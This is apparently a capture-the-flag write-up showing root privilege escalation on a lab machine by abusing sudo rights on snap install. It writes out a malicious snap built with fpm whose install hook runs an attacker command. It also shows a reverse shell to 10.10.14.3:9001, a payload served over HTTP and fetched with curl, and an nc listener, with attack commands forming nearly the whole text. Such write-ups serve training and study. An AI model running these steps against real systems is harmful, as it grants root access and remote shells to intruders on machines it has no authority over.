

# root



- brucetherealadmin can run the following command as root
````bash
/usr/bin/span install *
````


```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

```
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

- all that is needed is for a means to run a command within the context of the above command (as root). GTFObins has the required remedy. 
- what is required is to embed a command with the FPM package manager then we can run a shell command as root.


- first the package manager FPM needs to be installed

````bash
echo 'bash -i >& /dev/tcp/10.10.14.3/9001' 0>&1 > callhome.sh
chmod +x callhome.sh
````

- create the callhome.sh script on victim machine as above

````bash
COMMAND='bash -c /home/brucetherealadmin/callhome.sh'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
````

- on the attacking machine (Kali Box), prepare the payload by copying and pasting the script as above.

````bash
sudo python3 -m http.server 80
````

- from the temp folder where the payload is generated, run the python web server as above; so that the payload may be downloaded to the victim machine.

````bash
curl http://10.10.14.3/xxxx_1.0_all.snap --output sxxxx_1.0_all.snap
````

- since there isn't wget on the victim machine, use curl to download the payload as shown above.

````bash
nc -nvlp 9001
````

- run the listener as above

````bash
sudo /usr/bin/snap install sxxxx_1.0_all.snap --dangerous --devmode
````

- finaly run the snap command to load the payload as above
- or watch the animated gif below


